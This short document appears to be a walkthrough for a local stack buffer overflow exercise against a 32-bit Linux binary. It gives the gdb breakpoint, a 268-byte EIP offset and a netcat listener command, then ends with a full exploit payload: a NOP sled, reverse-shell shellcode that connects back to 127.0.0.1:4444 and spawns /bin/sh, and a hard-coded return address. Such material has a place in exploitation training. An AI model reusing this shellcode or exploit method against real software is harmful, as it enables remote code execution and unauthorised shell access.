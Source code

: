 Set Break 

	b *0x8048559

Enter your payload, It should overwrite EIP after 268 bytes 

	run $(python -c "print('A'*268+'B'*4)"




268 byte offset

Open New Port with createnc.py

	python create_rev_shell.py 127.0.0.1 XXXX

Copy Shellcode to your payload!

Listen the port that you ve opened 

	nc -lvp  XXXX

Verify your connection with

	netstat -ant

And various shell commands!

This sample works with 127.0.0.1 4444 , Do not forget listening 4444 port when you are debugging the executable! Good Luck
	
    run $(python -c "print('\x90'*101 + '\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x02\x02\x02\x02\xbb\x7d\x02\x02\x03\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + '\x90'*74+'\x70\xf3\xff\xbf')")

